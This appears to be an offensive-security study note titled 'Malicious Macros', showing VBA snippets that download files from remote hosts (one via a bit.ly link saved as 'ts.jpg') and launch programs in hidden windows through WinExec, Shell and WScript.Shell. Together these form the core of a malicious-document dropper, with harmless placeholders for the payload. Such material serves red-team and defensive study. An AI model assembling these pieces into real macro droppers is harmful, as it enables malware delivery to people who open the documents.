 ## Malicious Macros

-  We can make use of VBA code, COM objects, OLE automation, and Win32 APIs to explore the host, access the filesystem, and run commands.

```
Declare PtrSafe Function GetPID _
    Lib "kernel32" _
    Alias “GetProcessId” ( _
        ByVal hProcess As LongPtr _
    ) _
    As Long
```

- Urlmon exposes the easy-to-use function: UrlDownloadToFileA.

```
Declare PtrSafe Function URLDownloadToFileA Lib "urlmon" ( _
    ByVal pCaller As LongPtr, _
    ByVal szURL As String, _
    ByVal szFileName As String, _
    ByVal dwReserved As Long, _
    ByVal lpfnCB As LongPtr _
) As Long

Sub DownloadFile()
     URLDownloadToFileA 0, "https://192.168.10.10/Hello.txt", "Hello.txt", 0, 0
End Sub
```

- COM object: XMLHTTP. XMLHTTP is part of Microsoft’s suite of XML DOM components. The ADODB stream object is used to represent a stream of data or text.

```
Sub DownloadFile()
    Set objXMLHTTP = CreateObject("Microsoft.XMLHTTP")
    Set objADODBStream = CreateObject("ADODB.Stream")
    objXMLHTTP.Open "GET", "https://bit.ly/2B1GCyQ", False
    objXMLHTTP.Send
    objADODBStream.Type = 1
    objADODBStream.Open
    objADODBStream.Write objXMLHTTP.responseBody
    objADODBStream.savetofile "ts.jpg", 2
End Sub
```
- Win32 API calls to run a program. Probably the simplest function for starting a program is WinExec.

```
Declare Function WinExec Lib "kernel32" ( _
     ByVal lpCmdLine As String, _
     ByVal nCmdShow As Long _
) As Long

Const SHOW_HIDE As Long = 0

Sub ExecuteFile ()
     WinExec "C:\Windows\System32\notepad.exe", SHOW_HIDE
End Sub
```

- Execute a program using the Shell command built into VBA itself.

```
Sub ExecuteFile ()
    Shell "C:\Windows\System32\notepad.exe", vbHide
End Sub
```

- Windows Script provides a Wscript.Shell object, which in turn provides a Run method. 

```
Sub ExecuteFile ()
    Set objWscriptShell = CreateObject(“WScript.Shell”)
    objWscriptShell.Run “C:\Windows\System32\notepad.exe", 0
End Sub
```
